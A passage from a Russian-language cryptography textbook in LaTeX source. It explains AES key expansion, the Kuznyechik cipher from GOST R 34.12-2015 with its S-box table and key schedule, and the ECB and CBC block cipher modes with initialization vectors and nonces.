Этот многочлен взаимно прост с многочленом $y^4 + 1$ и, следовательно, обратим. Перемножение удобнее проводить в матричном виде. Если $\mathbf{b}(y) = \mathbf{c}(y) \otimes \mathbf{a}(y)$, то
\[
    \left[ \begin{array}{c}
        b_{0} \\ b_{1} \\ b_{2} \\ b_{3} \\
    \end{array}\right] =  \left[ \begin{array}{cccc}
        \mathrm{'02'} & \mathrm{'03'} & \mathrm{'01'} & \mathrm{'01'} \\
        \mathrm{'01'} & \mathrm{'02'} & \mathrm{'03'} & \mathrm{'01'} \\
        \mathrm{'01'} & \mathrm{'01'} & \mathrm{'02'} & \mathrm{'03'} \\
        \mathrm{'03'} & \mathrm{'01'} & \mathrm{'01'} & \mathrm{'02'} \\
    \end{array} \right] \cdot \left[ \begin{array}{c}
        a_{0} \\ a_{1} \\ a_{2} \\ a_{3} \\
     \end{array} \right].
\]

Обратная операция состоит в умножении на многочлен $\mathbf{d}(y)$, обратный многочлену $\mathbf{c}(y)$ по модулю $y^4 + 1$, то есть
\[
    (\mathrm{'03'} y^{3} + \mathrm{'01'} y^{2} + \mathrm{'01'} y + \mathrm{'02'}) \otimes \mathbf{d}(y) = \mathrm{'01'}.
\]
Этот многочлен равен
\[
    \mathbf{d}(y) = \mathrm{'0B'} y^3 + \mathrm{'0D'} y^2 + \mathrm{'09'} y + \mathrm{'0E'}.
\]


\subsubsection{Добавление ключа раунда $\mathsf{AddRoundKey}$}

Операция <<добавление ключа раунда>> состоит в том, что к матрице текущего состояния добавляется по модулю $2$ матрица ключа текущего раунда. Обе матрицы должны иметь одинаковые размеры. Матрица ключа раунда вычисляется с помощью процедуры \emph{расширения ключа}, описанной ниже. Операция <<добавление ключа раунда>> обозначается $\mathsf{AddRoundKey(State, RoundKey)}$.

\[
    \left[ \begin{array}{cccc}
        a_{0,0} & a_{0,1} & a_{0,2} & a_{0,3} \\
        a_{1,0} & a_{1,1} & a_{1,2} & a_{1,3} \\
        a_{2,0} & a_{2,1} & a_{2,2} & a_{2,3} \\
        a_{3,0} & a_{3,1} & a_{3,2} & a_{3,3}
    \end{array} \right]
    \oplus
    \left[ \begin{array}{cccc}
        k_{0,0} & k_{0,1} & k_{0,2} & k_{0,3} \\
        k_{1,0} & k_{1,1} & k_{1,2} & k_{1,3} \\
        k_{2,0} & k_{2,1} & k_{2,2} & k_{2,3} \\
        k_{3,0} & k_{3,1} & k_{3,2} & k_{3,3}
    \end{array} \right] =
\] \[
    = \left[ \begin{array}{cccc}
        b_{0,0} & b_{0,1} & b_{0,2} & b_{0,3} \\
        b_{1,0} & b_{1,1} & b_{1,2} & b_{1,3} \\
        b_{2,0} & b_{2,1} & b_{2,2} & b_{2,3} \\
        b_{3,0} & b_{3,1} & b_{3,2} & b_{3,3}
    \end{array} \right].
\]


\subsection{Процедура расширения ключа}

Матрица ключа текущего раунда получается из исходного ключа шифра с помощью специальной процедуры, состоящей из расширения ключа и выбора раундового ключа. Основные принципы этой процедуры состоят в следующем:
\begin{itemize}
    \item суммарная длина ключей всех раундов равна длине блока, умноженной на увеличенное на 1 число раундов. Для блока длины 128 бит и 10 раундов общая длина всех ключей раундов равна 1408;
    \item с помощью ключа шифра находят \emph{расширенный ключ};
    \item ключи \emph{раунда} выбираются из \emph{расширенного} ключа по правилу: ключ первого раунда состоит из первых 4-х столбцов матрицы расширенного ключа, второй ключ -- из следующих 4-х столбцов и~т.\,д.
\end{itemize}

Расширенный ключ -- это матрица $\mathsf{W}$, состоящая из $4 \cdot (\mathsf{Nr} + 1)$ 4-байтных вектор-столбцов, каждый столбец $i$ обозначается $\mathsf{W}[i]$.

Далее рассматривается только случай, когда ключ шифра состоит из $16$ байтов. Первые $\mathsf{Nk} = 4$ столбца содержат ключ шифра. Остальные столбцы вычисляются рекурсивно из столбцов с меньшими номерами.

Для $\mathsf{Nk} = 4$ имеем 16-байтный ключ
\[
    \mathsf{Key} = (\mathsf{Key}[0], \mathsf{Key}[1], \dots, \mathsf{Key}[15]).
\]
Приведём алгоритм расширения ключа для $\mathsf{Nk} = 4$.
\begin{algorithm}[iht]
    \caption{$\mathsf{KeyExpansion}(\mathsf{Key}, \mathsf{W})$\label{alg:AES-key-exp}}
    \begin{algorithmic}
        \FOR{ $i=0$ \TO $\mathsf{Nk} - 1$}
            \STATE $\mathsf{W}[i] = (\mathsf{Key}[4i], ~ \mathsf{Key}[4i+1], ~ \mathsf{Key}[4i+2], ~ \mathsf{Key}[4i+3])^T$;
        \ENDFOR
        \FOR{ $i = \mathsf{Nk}$ \TO $4 \cdot (\mathsf{Nr} + 1) - 1$}
            \STATE $\mathsf{temp} = \mathsf{W}[i-1]$;
            \IF{ ($i = 0 \mod \mathsf{Nk}$)}
                \STATE $\mathsf{temp} = \mathsf{SubWord}(\mathsf{RotWord}(\mathsf{temp})) ~ \oplus ~ \mathsf{Rcon}[i ~/~ \mathsf{Nk}]$;
            \ENDIF
            \STATE $\mathsf{W}[i] = \mathsf{W}[i - \mathsf{Nk}] ~ \oplus ~ \mathsf{temp}$;
        \ENDFOR
    \end{algorithmic}
\end{algorithm}

%\[
%    \begin{array}{l}
%        \mathsf{KeyExpansion}(\mathsf{Key}, \mathsf{W}) \{ \\
%        ~~~~ \mathsf{for ~ (i = 0; ~ i < Nk = 4; ~ i++)} \\
%        ~~~~~~~~ \mathsf{W[i] = (Key[4 \cdot i], ~ Key[4*i+1], ~ Key[4*i+2], ~ Key[4*i+3]);} \\
%        ~~~~ \mathsf{for ~ (i = Nk; ~ i < 4 * (Nr + 1); ~ i++)} ~ \{ \\
%        ~~~~~~~~ \mathsf{temp = W[i-1];} \\
%        ~~~~~~~~ \mathsf{if ~ (i ~ \% ~ Nk ~ == ~ 0)} \\
%        ~~~~~~~~~~~~ \mathsf{temp = SubWord(RotWord(temp))} ~ \oplus ~ \mathsf{Rcon[i / Nk];} \\
%        ~~~~~~~~ \mathsf{W[i] = W[i - Nk]} ~ \oplus ~ \mathsf{temp;} \\
%        ~~~~ \} \\
%        \} \\
%    \end{array}
%\]

Здесь $\mathsf{SubWord}(\mathsf{W}[i])$ обозначает функцию, которая применяет операцию <<замена байтов>> (или s-блок) $\mathsf{SubBytes}$ к каждому из 4-х байтов столбца $\mathsf{W}[i]$. Функция $\mathsf{RotWord}(\mathsf{W}[i])$ осуществляет циклический сдвиг вверх байт столбца $\mathsf{W}[i]$: если $\mathsf{W}[i] = (a, b, c, d)^T$, то $\mathsf{RotByte}(\mathsf{W}[i]) = (b, c, d, a)^T$. Векторы-константы $\mathsf{Rcon}[i]$ определены ниже.

Как видно из этого описания, первые $\mathsf{Nk} = 4$ столбца заполняются ключом шифра. Все следующие столбцы $\mathsf{W}[i]$ равны сумме по модулю $2$ предыдущего столбца $\mathsf{W}[i-1]$ и столбца $\mathsf{W}[i-4]$. Для столбцов $\mathsf{W}[i]$ с номерами $i$, кратными $\mathsf{Nk} = 4$, к столбцу $\mathsf{W}[i-1]$ применяются операции $\mathsf{RotWord(W)}$ и $\mathsf{SubWord(W)}$, а затем производится суммирование по модулю 2 со столбцом $\mathsf{W}[i-4]$ и константой раунда $\mathsf{Rcon}[i ~/~ 4]$.

%Для $\mathsf{Nk}>6$ имеем
%\[
%\begin{array}{l}
% \mathsf{KeyExpansion\,(byte\,Key\,[4*Nk]\,\, word \,\, W[Nb*(Nr+1)])}\\
%  \{\\
% \quad\quad \mathsf{for\,\,(i=0;\,\, i<Nk;\,\,i++)} \\
%  \qquad \quad\quad\quad \mathsf{W[i]=(Key[4*i];Key[4*i+1];Key[4*i+2];Key[4*i+3]);}\\
%  \quad\quad \mathsf{for \,\,(i=Nk;\,\,i<Nb*(Nr+1);\,\,i++)}\\
%  \quad\quad \{ \\
%  \quad \quad\quad\quad \mathsf{temp=W[i-1]}; \\
%  \quad \quad\quad\quad \mathsf{if\,\,(i\quad\% \quad Nk==0)}\\
%  \qquad \qquad \qquad \quad \mathsf{temp=SubByte(RotByte(temp))\quad\widehat{\,}\quad Rcon[i/Nk]};\\
%\quad \quad\quad\quad \mathsf{else \,\,if\,\,(i\quad\% \quad Nk==4)}\\
% \qquad \qquad \qquad \quad \mathsf{temp=SubByte(temp)};\\
%  \quad \quad\quad\quad \mathsf{W[i]=W[i-Nk] \quad\widehat{\,}\quad temp};\\
%  \quad\quad \} \\
%  \}\, \\
%\end{array}
%\]
%Различие между этими двумя случаями состоит в том, что во втором случае к столбцу $\mathsf{W[i-1]}$ применяются операции
% $\mathsf{RotByte(W)}$ и $\mathsf{SubByte(W)}$, если $\mathsf{i-4}$ кратно $\mathsf{Nk}$.\\

Константы раундов определяются следующим образом:
    \[ \mathsf{Rcon}[i] = (\mathsf{RC}[i], \mathrm{'00'}, \mathrm{'00'}, \mathrm{'00'})^T, \]
где байт $\mathsf{RC}[1] = \mathrm{'01'}$, а байты $\mathsf{RC}[i] = \alpha^{i-1}, ~ i = 2, 3, \dots$. Байт $\alpha = \mathrm{'02'}$ -- это примитивный элемент поля $\GF{2^8}$.

\example
Пусть $\mathsf{Nk} = 4$. В этом случае ключ шифра имеет длину 128 бит. Найдём столбцы расширенного ключа. Столбцы $\mathsf{W}[0], \mathsf{W}[1], \mathsf{W}[2], \mathsf{W}[3]$ непосредственно заполняются битами ключа шифра. Номер следующего столбца $\mathsf{W}[4]$ кратен $\mathsf{Nk}$, поэтому
\[
    \mathsf{W}[4] = \mathsf{SubWord}(\mathsf{RotWord}(\mathsf{W}[3])) \oplus \mathsf{W}[0] \oplus
        \left[ \begin{array}{c}
            \mathrm{'01'} \\ \mathrm{'00'} \\ \mathrm{'00'} \\ \mathrm{'00'} \\
        \end{array} \right].
\]
Далее имеем:
\[
    \begin{array}{l}
        \mathsf{W}[5] = \mathsf{W}[4] \oplus \mathsf{W}[1], \\
        \mathsf{W}[6] = \mathsf{W}[5] \oplus \mathsf{W}[2], \\
        \mathsf{W}[7] = \mathsf{W}[6] \oplus \mathsf{W}[3].  \\
    \end{array}
\]
Затем:
\[
    \mathsf{W}[8] = \mathsf{SubWord}(\mathsf{RotWord}(\mathsf{W}[7])) \oplus \mathsf{W}[4] \oplus
        \left[ \begin{array}{c}
            \alpha \\
            \mathrm{'00'}\\
            \mathrm{'00'}\\
            \mathrm{'00'}\\
        \end{array} \right] ,
\] \[
    \begin{array}{l}
        \mathsf{W}[9] = \mathsf{W}[8] \oplus \mathsf{W}[5], \\
        \mathsf{W}[10] = \mathsf{W}[9] \oplus \mathsf{W}[6], \\
        \mathsf{W}[11] = \mathsf{W}[10] \oplus \mathsf{W}[7] \\
    \end{array}
\]
и~т.\,д.
\exampleend

%\example
%Пусть $\mathsf{Nk=6}.$ В этом случае ключ шифра имеет длину 192 бита. Найдём столбцы расширенного ключа. Столбцы $\mathsf{W[0],W[1],W[2],W[3],W[4],W[5]}$ непосредственно заполняются
%битами ключа шифра. Номер следующего столбца $\mathsf{W[6]}$ кратен $\mathsf{Nk}$, поэтому
%\[
%\begin{array}{ccccccc}
% \mathsf{W[6]} & = & \mathsf{SubByte(RotByte(W[5]))} &\oplus  &  \mathsf{W[0]} & \oplus  & \left[ \begin{array}{c}
% \mathsf{`01'} \\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%\end{array}
%\right]    \\
%\end{array}
%\].
%
%Далее имеем
%\[
%\begin{array}{ccc}
% \mathsf{W[7]=W[6]}\oplus \mathsf{W[1]}; & \mathsf{W[8]=W[7]}\oplus \mathsf{W[2]}; & \mathsf{W[9]=W[8]}\oplus \mathsf{W[3]}; \\
% \mathsf{W[10]=W[9]}\oplus \mathsf{W[4]}; &\mathsf{ W[11]=W[10]}\oplus \mathsf{W[5]}.\\
%\end{array}
%\]
%Затем
%\[
%\begin{array}{ccccccc}
% \mathsf{W[12]} & = & \mathsf{SubByte(RotByte(W[11]))} &\oplus  &  \mathsf{W[6]} & \oplus  & \left[ \begin{array}{c}
% \mathsf{\alpha} \\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%\end{array}
%\right] , \\
%\end{array}
%\]
%\[
%\begin{array}{ccc}
% \mathsf{W[13]=W[12]}\oplus \mathsf{W[7]}; & \mathsf{W[14]= W[13]}\oplus \mathsf{W[8]};  & \mathsf{W[15]=W[14]}\oplus \mathsf{W[9]}, \\
%\end{array}
%\]
%и~т.\,д.
%\exampleend
%
%\example
%Пусть $\mathsf{Nk=8}.$ В этом случае ключ шифра имеет длину $256$ бита. Найдём столбцы расширенного ключа. Столбцы
%$\mathsf{W[0],W[1],W[2],W[3],W[4],W[5],W[6],W[7]}$ непосредственно заполняются битами ключа шифра. Номер следующего столбца
%$\mathsf{W[8]}$ кратен $\mathsf{Nk}$, поэтому
%\[
%\begin{array}{ccccccc}
% \mathsf{W[8]} & = & \mathsf{SubByte(RotByte(W[7]))} &\oplus  &  \mathsf{W[0]} & \oplus  & \left[ \begin{array}{c}
% \mathsf{`01'} \\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%\end{array}
%\right]    \\
%\end{array}
%\].
%Далее, имеем
%\[
%\begin{array}{ccc}
%\mathsf{ W[7]=W[6]}\oplus \mathsf{W[1]}; & \mathsf{W[8]=W[7]}\oplus \mathsf{W[2]}; & \mathsf{W[9]=W[8]}\oplus \mathsf{W[3]}; \\
%\mathsf{ W[10]=W[9]}\oplus \mathsf{W[4]}; & \mathsf{W[11]=W[10]}\oplus \mathsf{W[5]}.\\
%\end{array}
%\]
%Номер следующего столбца $\mathsf{W[12]}$ равен $12$. Так как $12-4$ кратно $\mathsf{Nk}$, то
%\[
%\begin{array}{ccc}
%\mathsf{ W[12]=SubByte(RotByte(W[11]))}\oplus \mathsf{W[4]}; & \mathsf{W[13]=W[12]}\oplus \mathsf{W[5]}; & \mathsf{W[14]=W[13]}\oplus \mathsf{W[6]}; \\
%\mathsf{ W[15]=W[14]}\oplus \mathsf{W[7]}. &  &\\
%\end{array}
%\]
%Затем
%\[
%\begin{array}{ccccccc}
% \mathsf{W[16]} & = & \mathsf{SubByte(RotByte(W[15]))} &\oplus  &  \mathsf{W[8]} & \oplus  & \left[ \begin{array}{c}
% \mathsf{\alpha} \\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%  \mathsf{`00'}\\
%\end{array}
%\right] , \\
%\end{array}
%\]
%\[
%\begin{array}{ccc}
% \mathsf{W[17]=W[16]}\oplus \mathsf{W[9]}; & \mathsf{W[18]=W[17]}\oplus \mathsf{W[10]};  &\mathsf{ W[19]=W[18]}\oplus \mathsf{W[10]}, \\
%\end{array}
%\]
%
%\[
%\begin{array}{ccc}
%\mathsf{ W[20]=SubByte(RotByte(W[19]))}\oplus \mathsf{W[12]}; & \mathsf{W[21]=W[20]}\oplus \mathsf{W[13]}; & \mathsf{W[22]=W[21]}\oplus \mathsf{W[14]}; \\
%\mathsf{ W[23]=W[22]}\oplus \mathsf{W[15]}, &  &\\
%\end{array}
%\]
%и~т.\,д.

Ключ $i$-го раунда состоит из столбцов матрицы расширенного ключа
\[
    \mathsf{RoundKey} = (\mathsf{W}[4(i-1)], \mathsf{W}[4(i-1) + 1], \ldots, \mathsf{W}[4i-1]).
\]
%Если длина блока равна 192 битам $Nb=6$, то ключ 5-го раунда состоит из столбцов $W[24],W[25],W[26],W[27],W[28],W[29].$
%\exampleend

В настоящее время американский стандарт шифрования AES де-факто используется во всём мире в негосударственных системах передачи данных, если позволяет законодательство страны. C 2010 г. процессоры Intel поддерживают специальный набор инструкций для шифра AES.

\index{шифр!AES|)}


\section{Шифр «Кузнечик»}\label{section-grig}\index{шифр!«Кузнечик»|(}
\selectlanguage{russian}

В июне 2015 года в России был принят новый стандарт блочного шифрования ГОСТ Р 34.12-2015~\cite{GOST-R:34.12-2015}. Данный стандарт включает в себя два блочных шифра -- старый ГОСТ 28147-89, получивший теперь название <<Магма>>, и новый шифр со 128-ми битным входным блоком, получившим название <<Кузнечик>>.
 
В отличие от шифра <<Магма>> новый шифр <<Кузнечик>> основан на SP-сети\index{SP-сеть} (сети замен и перестановок), то есть основан на серии обратимых преобразований, а не на ячейке Фейстеля\index{ячейка Фейстеля}. Как и другие популярные шифры, он является блочным раундовым шифром и имеет выделенную процедуру выработки раундовых ключей. Шифр работает с блоками открытого текста по 128 бит, а размер ключа шифра составляет 256 бит. Отдельный раунд шифра <<Кузнечик>> состоит из операции наложения ключа, нелинейного и линейного преобразований, как изображено на рис.~\ref{fig:kuznechik-step}. Всего в алгоритме 10 раундов, последний из которых состоит только из операции наложения ключа. 

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.8\textwidth]{pic/kuznechik-step}
  \caption{Один раунд шифрования в алгоритме <<Кузнечик>>}
  \label{fig:kuznechik-step}
\end{figure}

Нелинейное преобразование $S$ разбивает блок данных из 128 бит на 16 блоков по 8 бит в каждом, как показано на рис.~\ref{fig:kuznechik-s}.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/kuznechik-s}
  \caption{Нелинейное преобразование $S$ в алгоритме <<Кузнечик>>}
  \label{fig:kuznechik-s}
\end{figure}

Каждый из 8-ми битных блоков $a$ трактуется как целое беззнаковое число $\text{Int}_8 a$ и выступает в качестве индекса в заданном массиве констант $\pi'$. Значение по индексу $\text{Int}_8 a$ в массиве констант $\pi'$ обратно преобразуется в двоичный вид и выступает в качестве одного из 16-ти выходных блоков нелинейного преобразования $S$.

\begin{quote}\noindent {\scriptsize$\pi'$ = (252, 238, 221, 17, 207, 110, 49, 22, 251, 196, 250, 218, 35, 197, 4, 77, 233, 119, 240, 219, 147, 46, 153, 186, 23, 54, 241. 187, 20, 205, 95, 193, 249, 24, 101, 90, 226, 92, 239, 33, 129, 28, 60, 66, 139, 1, 142, 79, 5, 132, 2, 174, 227, 106, 143, 160, 6, 11, 237, 152, 127, 212, 211, 31, 235, 52, 44, 81, 234, 200, 72, 171, 242, 42, 104, 162, 253, 58, 206, 204, 181, 112, 14, 86, 8, 12, 118, 18, 191, 114, 19, 71, 156, 183, 93, 135, 21, 161, 150, 41, 16, 123, 154, 199, 243, 145, 120, 111, 157, 158, 178, 177, 50, 117, 25, 61, 255, 53, 138, 126, 109, 84, 198, 128, 195, 189, 13, 87, 223, 245, 36, 169, 62, 168, 67, 201, 215, 121, 214, 246, 124, 34, 185, 3, 224, 15, 236, 222, 122, 148, 176, 188, 220, 232, 40, 80, 78, 51, 10, 74, 167, 151, 96, 115, 30, 0, 98, 68, 26, 184, 56, 130, 100, 159, 38, 65, 173, 69, 70, 146, 39, 94, 85, 47, 140, 163, 165, 125, 105, 213, 149, 59, 7, 88, 179, 64, 134, 172, 29, 247, 48, 55, 107, 228, 136, 217, 231, 137, 225, 27, 131, 73, 76, 63, 248, 254, 141, 83, 170, 144, 202, 216, 133, 97, 32, 113, 103, 164, 45, 43, 9, 91, 203, 155, 37, 208, 190, 229, 108, 82, 89, 166, 116, 210, 230, 244, 180, 192, 209, 102, 175, 194, 57, 75, 99, 182).}\end{quote}

Линейное преобразование $L$ состоит из 16-ти операций линейного преобразования $R$, то есть $L = R^{16}$. Линейное преобразование $R$, в свою очередь, использует блок из 128 бит как начальные значения 8-ми битовых ячеек регистра сдвига, связанного с 16-ю ячейками линейной обратной связью (РСЛОС), как показано на рис.~\ref{fig:kuznechik-p}. При сдвиге вычисляется сумма значений ячеек, домноженных на 16 констант. Значения ячеек и константы трактуются как элементы поля Галуа $GF(2^8)$ с модулем $p(x) = x^8 + x^7 + x^6 + x + 1$ (см. раздел~\ref{section-fields}), умножение и сложение также проходят в этом поле.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.9\textwidth]{pic/kuznechik-p}
  \caption{Линейное преобразование $R$ в алгоритме <<Кузнечик>>}
  \label{fig:kuznechik-p}
\end{figure}

Алгоритм развёртывания ключа основан на ячейке Фейстеля, хотя и не использует её ключевую особенность (обратимость). Начало алгоритма изображено на рис.~\ref{fig:kuznechik-keys}.

\begin{figure}[htb]
	\centering
	\includegraphics[width=0.90\textwidth]{pic/kuznechik-keys}
  \caption{Часть алгоритма развёртывания ключа в <<Кузнечике>>}
  \label{fig:kuznechik-keys}
\end{figure}

\begin{itemize}
	\item Целые числа $i$ от 1 до 32 представляются в виде двоичных векторов по 128 бит. К каждому из них применяется линейное преобразование $L=R^{16}$ как было описано ранее. Получаются 32 константы $C_{1}...C_{32}$.
	\item Первые два раундовых ключа $K_1$ и $K_2$ получаются разбиением мастер-ключа $K$ (256 бит) на два блока по 128 бит каждый.
	\item Следующая пара раундовых ключей $K_3$ и $K_4$ получается из первой пары $K_1$ и $K_2$ применением 8 раундов ячейки Фейстеля. В качестве функции Фейстеля, преобразующей один из блоков на каждом раунде, выступает преобразование $\text{LSX}(C_i), i=1,\dots,8$. То есть (читая справа налево, как принято с операторами) побитовое сложение с заданной константой $C_i$, а потом нелинейное и линейное преобразования $S$ и $L$, как они были описаны ранее.
	\item Все остальные пары раундовых ключей вплоть до $K_{9}$ и $K_{10}$ получаются аналогичным образом, используя предыдущую пару ключей и по 8 констант $C_i$.
\end{itemize}

Так как и легальный отправитель, и легальный получатель используют функцию развёртывания ключа в прямом направлении, начиная с пары $K_1, K_2$ и до $K_{9}, K_{10}$, то алгоритм никогда не <<идёт назад>> и не использует ключевую особенность ячейки Фейстеля -- её обратимость.

В отличие от стандарта 1989 года, в текст нового стандарта не стали включать режимы сцепления блоков, а вынесли это в отдельный ГОСТ Р 34.13-2015 <<Режимы работы блочных шифров>>~\cite{GOST-R:34.13-2015}.

В работе 2015 года Бирюков, Перрин и Удовенко (\langen{Alex Biryukov, Léo Perrin, Aleksei Udovenko},~\cite{Biryukov:Perrin:Udovenko:2015}) продемонстрировали, что структура s-блока не является случайной, а получена в результате работы детерминированного алгоритма. Это может быть использовано для создания более быстрых реализаций алгоритма шифрования, но теоретически может быть и основой для атак на шифр.

\index{шифр!«Кузнечик»|)}


\section{Режимы работы блочных шифров}\label{section-block-chaining}
\selectlanguage{russian}

Открытый текст $M$, представленный как двоичный файл, перед шифрованием разбивают на части $M_1, M_2, \dots, M_n$, называемые пакетами. Предполагается, что размер в битах каждого пакета существенно превосходит длину блока шифрования, которая равна 64-м битам для российского стандарта и 128 -- для американского стандарта AES.

В свою очередь, каждый пакет $M_i$ разбивается на блоки размера, равного размеру блока шифрования:
    \[ M_i = \left[ M_{i,1}, M_{i,2}, \dots, M_{i,n_i} \right]. \]
Число блоков $n_i$ в разных пакетах может быть разным. Кроме того, последний блок пакета $M_{i,n_i}$ может иметь размер, меньший размера блока шифрования. В этом случае для него применяют процедуру дополнения (удлинения) до стандартного размера. Процедура должна быть обратимой: после расшифрования последнего блока пакета лишние байты должны быть обнаружены и удалены. Некоторые способы дополнения.
\begin{itemize}
  \item Добавить один байт со значением $128$, а остальные байты принять за нулевые.
  \item Определить, сколько байтов надо добавить к последнему блоку, например $b$, и добавить $b$ байтов со значением $b$ в каждом.
\end{itemize}
В дальнейшем предполагается, что такое дополнение сделано для каждого пакета. При шифровании блоков внутри одного пакета первый индекс в нумерации блоков опускается, то есть вместо обозначения $M_{i,j}$ используется $M_j$.

Для шифрования всего открытого текста $M$ и, следовательно, всех пакетов используется один и тот же \emph{сеансовый} ключ шифрования $K$. Процедуру передачи одного пакета будем называть \emph{сеансом}.

Существует несколько режимов работы блочных шифров: режим электронной кодовой книги, режим шифрования зацепленных блоков, режим обратной связи, режим шифрованной обратной связи, режим счётчика. Рассмотрим особенности каждого из этих режимов.


\subsection{Электронная кодовая книга}

В режиме электронной кодовой книги (\langen{Electronic Code Book, ECB}) открытый текст в пакете разделён на блоки
    \[ \left[ M_1, M_2, \dots, M_{n-1}, M_n \right]. \]

В процессе шифрования каждому блоку $M_j$ соответствует свой шифртекст $C_j$, определяемый с помощью ключа $K$:
    \[ C_j = E_K(M_j), ~ j = 1, 2, \dots, n. \]

Если в открытом тексте есть одинаковые блоки, то в шифрованном тексте им также соответствуют одинаковые блоки. Это даёт дополнительную информацию для криптоаналитика, что является недостатком этого режима. Другой недостаток состоит в том, что криптоаналитик может подслушивать, перехватывать, переставлять, воспроизводить ранее записанные блоки, нарушая конфиденциальность\index{конфиденциальность} и целостность\index{целостность} информации. Поэтому при работе в режиме электронной кодовой книги нужно вводить аутентификацию сообщений.

Шифрование в режиме электронной кодовой книги не использует сцепление блоков и синхропосылку\index{синхропосылка} (вектор инициализации)\index{вектор инициализации}. Поэтому для данного режима применима атака на различение сообщений, так как два одинаковых блока или два одинаковых открытых текста шифруются идентично.

На рис.~\ref{fig:ecb-demo} приведён пример шифрования графического файла морской звезды в формате BMP, 24 бит цветности на пиксель (рис.~\ref{fig:starfish}), блочным шифром AES с длиной ключа 128 бит в режиме электронной кодовой книги (рис.~\ref{fig:starfish-aes-128-ecb}). В начале зашифрованного файла был восстановлен стандартный заголовок формата BMP. Как видно, в зашифрованном файле изображение всё равно различимо.
\begin{figure}[!ht]
    \centering
    \subcaptionbox{Исходный рисунок\label{fig:starfish}}{ \includegraphics[width=0.45\textwidth]{pic/starfish}}
    ~~~
    \subcaptionbox{Рисунок, зашифрованный AES-128\label{fig:starfish-aes-128-ecb}}{ \includegraphics[width=0.45\textwidth]{pic/starfish-aes-128-ecb}}
    \caption{Шифрование в режиме электронной кодовой книги\label{fig:ecb-demo}}
\end{figure}
BMP файл в данном случае содержит в самом начале стандартный заголовок (ширина, высота, количество цветов), и далее идёт массив 24-битовых значений цвета пикселей, взятых построчно сверху вниз. В массиве много последовательностей нулевых байтов, так как пиксели белого фона кодируются 3-мя нулевыми байтами. В AES размер блока равен 16 байтам, и, значит, каждые $\frac{16}{3}$ подряд идущих пикселей белого фона шифруются одинаково, позволяя различить изображение в зашифрованном файле.

%На рис.~\ref{fig:ecb-demo} приведён пример шифрования графического файла логотипа Википедии в формате BMP, 24 бит цветности на пиксель (рис.~\ref{fig:wikilogo}), блочным шифром AES с длиной ключа 128 бит в режиме электронной кодовой книги (рис.~\ref{fig:wikilogo-aes-128-ecb}). В начале зашифрованного файла был восстановлен стандартный заголовок BMP формата. Как видно, на зашифрованном рисунке возможно даже прочитать надпись.
%\begin{figure}[!ht]
%    \centering
%    \subfloat[Исходный рисунок]{\label{fig:wikilogo}\includegraphics[width=0.45\textwidth]{pic/wikilogo}}
%    ~~~
%    \subfloat[Рисунок, зашифрованный AES-128]{\label{fig:wikilogo-aes-128-ecb}\includegraphics[width=0.45\textwidth]{pic/wikilogo-aes-128-ecb}}
%    \caption{Шифрование в режиме электронной кодовой книги.}
%    \label{fig:ecb-demo}
%\end{figure}

%Возможно воссоздание структуры информации -- например, пингвин на рис.~\ref{fig:tux-ecbmode}. Картинка с пингвином записана в формате BMP и зашифрована DES в режиме электронной кодовой книги.
%\begin{figure}[!ht]
%    \centering
%    \includegraphics[width=0.3\textwidth]{pic/tux-ecb}
%    \caption{Картинка с пингвином, зашифрованная в режиме электронной кодовой книги.}
%    \label{fig:tux-ecbmode}
%\end{figure}


\subsection{Сцепление блоков шифртекста}

В режиме сцепления блоков шифртекста (\langen{Cipher Block Chaining, CBC}) перед шифрованием текущего блока открытого текста предварительно производится его суммирование по модулю $2$ с предыдущим блоком зашифрованного текста, что и осуществляет <<сцепление>> блоков. Процедура шифрования имеет вид:
\[ \begin{array}{l}
    C_1 = E_K(M_1 \oplus C_0), \\
    C_j = E_K(M_j \oplus C_{j-1}), ~ j = 1, 2, \dots, n,
\end{array} \]
где $C_0 = \textrm{IV}$ -- вектор, называемый вектором инициализации (обозначение $\textrm{IV}$ от Initialization Vector). Другое название -- синхропосылка.

Благодаря сцеплению, \emph{одинаковым} блокам открытого текста соответствуют \emph{различные} шифрованные блоки. Это затрудняет криптоаналитику статистический анализ потока шифрованных блоков.

На приёмной стороне расшифрование осуществляется по правилу:
\[ \begin{array}{l}
    D_K(C_j) = M_j \oplus C_{j-1}, ~ j=1, 2, \dots, n,\\
    M_{j} = D_K(C_j) \oplus C_{j-1}.
\end{array} \]

Блок $C_0 = \textrm{IV}$ должен быть известен легальному получателю шифрованных сообщений. Обычно криптограф выбирает его случайно и вставляет на первое место в поток шифрованных блоков. Сначала передают блок $C_0$, а затем шифрованные блоки $C_1, C_2, \ldots, C_n$.

В разных пакетах блоки $C_0$ должны выбираться независимо. Если их выбрать одинаковыми, то возникают проблемы, аналогичные проблемам в режиме ECB. Например, часто первые нешифрованные блоки $M_1$ в разных пакетах бывают одинаковыми. Тогда одинаковыми будут и первые шифрованные блоки.

Однако случайный выбор векторов инициализации также имеет свои недостатки. Для выбора такого вектора необходим хороший генератор случайных чисел. Кроме того, каждый пакет удлиняется на один блок.

Для каждого сеанса передачи пакета нужны такие процедуры выбора $C_0$, которые известны криптографу и легальному пользователю. Одним из решений является использование так называемых \emph{одноразовых меток}. Каждому сеансу присваивается уникальное число. Его уникальность состоит в том, что оно используется только один раз и никогда не должно повторяться в других пакетах. В англоязычной научной литературе оно обозначается как \emph{Nonce}, то есть сокращение от <<Number used once>>\index{одноразовая метка}.

Обычно одноразовая метка состоит из номера сеанса и дополнительных данных, обеспечивающих уникальность. Например, при двустороннем обмене шифрованными сообщениями одноразовая метка может состоять из номера сеанса и индикатора направления передачи. Размер одноразовой метки должен быть равен размеру шифруемого блока. После определения одноразовой метки $\textrm{Nonce}$ вектор инициализации вычисляется в виде
    \[ C_0 = \textrm{IV} = E_K(\textrm{Nonce}). \]

